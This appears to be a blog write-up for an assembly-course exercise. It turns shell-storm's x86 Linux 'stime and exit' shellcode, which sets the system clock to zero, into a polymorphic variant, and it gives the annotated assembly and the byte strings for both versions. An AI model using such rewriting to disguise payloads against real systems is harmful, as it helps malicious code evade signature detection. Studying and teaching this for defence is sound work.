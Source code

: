 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 1 Stime
subtitle: Polymorphic Shellcode Part 1
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'stime and exit' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php). This shellcode sets the device's time to 0, and then gracefully exits. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:


;stime([0])

push byte 25 ; Push 25 to the stack
pop eax      ; Pop 25 into eax for the stime syscall
cdq          ; Extend eax into edx, clearing the edx register
push edx     ; Push edx to the stack (0)
mov ebx, esp ; Move stack pointer into ebx - the time parameter is pointed to
int 0x80     ; Interupt to syscall

;exit()

inc eax      ; On success, return value from stime is 0, inc to 1 for exit syscall
int 0x80     ; Call interupt to exit gracefully
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen full annotated below:

```
global _start			

section .text
_start:

;stime(0)
xor eax, eax  ; clear eax register
push eax      ; push 0 to the stack
add eax, 25   ; add 25 to eax for the stime syscall
xchg ebx, esp ; point to the 0 in the stack
int 0x80      ; interupt to syscall

;exit
inc eax       ; if succesful, return value is 0 to eac, increment eax to be 1 for exit syscall
int 0x80      ; interupt to syscall to exit gracefully
```
It can be clearly seen that the 'stime' section of the code is completely different from before, whilst maintaining a relatively small size. The 'exit' section of the code remains the same, this could be changed with an 'add' or 'mov' instruction, however using the 'inc' instruction maintains a small size. 

When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x6a\x19\x58\x99\x52\x89\xe3\xcd\x80\x40\xcd\x80"
```

**Polymorphic**

```
"\x31\xc0\x50\x83\xc0\x19\x87\xdc\xcd\x80\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode, which is nearly completely different, is only one byte larger. 


